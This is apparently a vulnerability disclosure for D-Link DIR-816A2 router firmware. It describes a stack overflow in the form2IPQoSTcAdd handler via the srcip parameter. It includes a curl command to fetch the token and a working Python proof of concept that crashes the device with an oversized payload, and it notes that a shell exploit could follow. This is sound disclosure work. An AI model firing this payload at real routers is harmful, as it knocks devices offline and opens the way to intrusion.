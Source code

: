 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2IPQoSTcAdd.   The content obtained by srcip parameter is passed to V14, and then the content matched by V14 is formatted into the V12 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

## POC

Gets the token ID

```
curl http://ip/dir_login.asp | grep tokenid
```

Run poc

```python
import requests

tokenid = 'xxx'

url = 'http://10.211.55.20/goform/form2IPQoSTcAdd'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'srcip': payload,
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.

